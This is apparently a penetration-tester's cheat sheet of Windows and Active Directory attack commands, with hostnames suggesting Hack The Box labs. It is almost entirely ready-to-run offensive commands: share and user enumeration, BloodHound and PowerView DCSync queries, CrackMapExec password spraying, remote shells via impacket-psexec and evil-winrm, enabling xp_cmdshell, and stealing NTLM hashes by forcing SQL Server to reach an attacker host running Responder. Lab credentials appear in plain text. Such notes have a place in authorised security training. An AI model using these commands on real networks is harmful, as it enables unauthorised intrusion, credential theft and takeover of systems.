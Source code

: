 # Windows Recon & Attack
## Enumeration
### Common
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
Enumerate NFS Shares
```bash
/usr/sbin/showmount -e <IP>
```
Connect to NFS Shares
```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```
Kerbrute Username Enumeration
```bash
kerbrute userenum -d scepter.htb --dc 10.10.11.65 jsmith.txt -o users.txt
```
### Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
Bloodhound-Python
```bash
bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
PowerView/Sharpview
```powershell
#Get all users without a blank description field
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}

#Get all all users with DCSync
$dcsync = Get-ObjectACL "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsync
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree  
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
#Collect hashes from Responder
```

